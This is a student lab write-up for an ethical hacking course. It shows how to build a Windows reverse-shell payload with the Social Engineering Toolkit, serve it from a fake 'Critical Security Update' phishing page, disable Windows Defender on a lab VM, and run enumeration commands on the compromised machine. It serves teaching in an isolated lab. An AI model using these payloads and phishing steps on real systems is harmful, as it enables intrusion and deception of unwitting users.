 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Click the Windows Key and search for Windows Defender
![alt text](image.png)      

6. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
![alt text](image-1.png)     


##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
![alt text](image-2.png)      

2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`.    

![alt text](image-4.png)      

![alt text](image-3.png)     


3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

![alt text](image-5.png)     


4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`   

![alt text](image-6.png)     

5. Allow SET to generate the payload but `do not` start the listener yet.   
![alt text](image-7.png)     

6. Just leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```
![alt text](image-8.png)    


##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```   
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```   
    ![alt text](image-9.png)      

3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.   

![alt text](image-10.png)      


2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    sudo netstat -plnt
    ```   

    ![alt text](image-11.png)    

4. Go back to the Metasploit/SET terminal and keep it open

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```    
![alt text](image-12.png)     

2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`    
![alt text](image-13.png)      

5. Click `Unblock` and click `Apply`, then `OK`

![alt text](image-14.png)      

6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```   

![alt text](image-15.png)     


4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```

![alt text](<Screenshot 2024-11-22 184434.png>)    

5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.
   
